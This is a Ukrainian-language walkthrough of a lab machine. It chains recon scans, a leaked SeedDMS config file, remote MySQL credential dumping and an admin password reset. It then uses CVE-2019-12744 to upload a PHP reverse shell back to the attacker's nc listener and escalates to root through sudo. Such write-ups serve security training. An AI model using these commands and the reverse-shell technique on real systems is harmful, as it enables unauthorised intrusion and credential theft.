



### **Крок 1: Розвідка мережі та сканування портів (Enumeration)**
Після завантаження та запуску віртуальної машини у **Qemu / KVM + Virt-Manager** першим кроком є визначення її IP-адреси та
сканування цільової машини на наявність **відкритих портів** та **запущених сервісів**. Для цього використовуємо команду:  

```sh
netdiscover -r 192.168.160.0/24
```


```sh
nmap -sC -sV -Pn -p- 192.168.160.252
```


**Результат**:  
- **Port 80**: HTTP (Apache httpd 2.4.41 (Ubuntu))
- **Port 3306**: MySQL (8.0.25-0ubuntu0.20.04.1) 
- **Port 33060**: MySQL X (protocol listener)

---

### **Крок 2: Відкриття веб-додатку за 80 портом**
Відкриваємо в браузері `http://192.168.160.252` і отримуємо:


Виявляємо доступні директорії:
```sh
dirb http://192.168.160.252
```


**Результат**:  
- http://192.168.160.252/index.html (CODE:200|SIZE:23744)
- http://192.168.160.252/img/aa (CODE:200|SIZE:83300)
- http://192.168.160.252/server-status (CODE:403|SIZE:280)
```sh
gobuster dir -u http://192.168.160.252 -w /usr/share/wordlists/dirb/common.txt
```

```sh
gobuster dir -u http://192.168.160.252 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip
```


**Результат**:  
- js (Status: 301) [Size: 315] [--> http://192.168.160.252/js/]

---

### **Крок 3: Витік конфігурації та отримання пароля від БД**

Переглядаємо вихідний коду сторінки **(View Page Source)** початкової сторінки `view-source:http://192.168.160.252/`.
Знаходимо **JavaScript-файли**, зокрема `main.js`, який містить посилання на директорію.


Після відкриття файлу `main.js` можна побачити шлях: `/seeddms51x/seeddms-5.1.22/`


Перехід за цим шляхом приводить до панелі входу **SeedDMS**.


**Дослідження SeedDMS**
Були випробувані стандартні облікові дані:
- admin:admin
- admin:password

Жодна з комбінацій не спрацювала.
Пошук в інтернеті вразливостей **SeedDMS** показав можливість віддаленого виконання команд **(Remote Command Execution, RCE)**, але для її експлуатації потрібна автентифікація.
На цьому етапі здавалося, що немає очевидного шляху подальших дій.

**Повторне сканування директорій**

Було повторно запущено **gobuster** для каталогу `/seeddms51x/`:
```sh
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://192.168.160.252/seeddms51x/
```


**Результат**:  
- /conf/

Вона доступна за адресою:
```plaintext
http://192.168.160.252/seeddms51x/conf/
```


Шукаємо **SeedDMS** source code на **GitHub** `https://sourceforge.net/p/seeddms/code/ci/seeddms-5.1.x/tree/`. Бачимо, що директорія `/conf/` має `settings.xml`.
Переходимо за адресою:
```plaintext
http://192.168.160.252/seeddms51x/conf/settings.xml
```


**Результат**:  
- dbUser="seeddms"
- dbPass="seeddms"

---

### **Крок 4: Експлуатація MySQL та скидання пароля адміна**

Оскільки порт `3306 (MySQL)` відкритий для зовнішніх підключень, то підключаємося до нього з **Kali Linux**, використовуючи знайдені дані:
```sh
mysql -u seeddms -p -h 192.168.160.252 --ssl=0
```
або
```sh
mysql -u seeddms -p -h 192.168.160.252 -p --skip-ssl
```


Після підключення виконуємо команду:
```sh
SHOW DATABASES;
```


Серед доступних баз даних особливий інтерес викликала база:
**seeddms**

```sh
use seeddms;
show tables;
```
У цій базі були виявлені таблиці.

**Результат**:  
- tblUsers
- users

Робимо пошук по таблицях.

**Аналіз таблиці users**
```sh
SELECT * FROM users;
```


**Результат**:  
- User = saket
- Password = Saket@#$1337

**Аналіз таблиці tblUsers**
```sh
SELECT * FROM tblUsers;
```


**Результат**:  
- User = admin
- Password = f9ef2c539bad8a6d2f3432b6d49ab51a

Пароль збережений у вигляді хешу. Було визначено, що це хеш типу **MD5**. Спроби розшифрувати його через онлайн-сервіси не дали результату.
Замість підбору хешу було використано інший підхід: безпосередньо підмінено значення у базі даних.
```sh
UPDATE tblUsers SET pwd=MD5('admin') WHERE login='admin';
```


---

### **Крок 5: Отримання початкового доступу (RCE через SeedDMS)**

Входимо під користувачем admin з новоствореним паролем admin
```sh
http://192.168.160.252/seeddms51x/seeddms-5.1.22/out/out.Login.php?referuri=%2Fseeddms51x%2Fseeddms-5.1.22%2Fout%2Fout.ViewFolder.php  
```


Застосовуємо відому вразливість **CVE-2019-12744 (Remote Command Execution)**. Оскільки це система керування документами, вона дозволяє завантажувати файли.
Завантажте стандартний **PHP reverse shell** (наприклад, змінений файл '/usr/share/webshells/php/php-reverse-shell.php'), вказавши в ньому IP-адресу вашої **Kali Linux** та порт (наприклад, **4321**).


Запускаємо nc на **kali linux** та слухаємо порт **4321**:
```sh
nc -lnvp 4321
```


Виконуємо шелл заадресою
```plaintext
http://192.168.160.252/seeddms51x/data/1048576/8/1.php
```


Отримали 'shell' з обмеженими правами користувача **www-data**.

Отриманий 'shell' нестабільний. Для покращення інтерактивності рекомендується оновити його до повноцінного терміналу.
```sh
python3 -c "import pty; pty.spawn('/bin/bash')"
```
або
```sh
script -qc /bin/bash /dev/null
```

---

### **Крок 6: Підвищення привілеїв (Privilege Escalation)**

Перевірка домашніх каталогів:
```sh
ls /home
```


Виявлено користувача 'saket'. Облікові дані вже відомі 'saket:Saket@#$1337'. Виконуємо:
```sh
su saket
cd ~
sudo -l
```


Виявилося, що користувач 'saket' має повні 'sudo-права' без пароля, що дозволяє виконувати будь-які команди від імені **root**.
Отримання root-доступу:
```sh
sudo /bin/bash
```
Root-доступ отримано



---
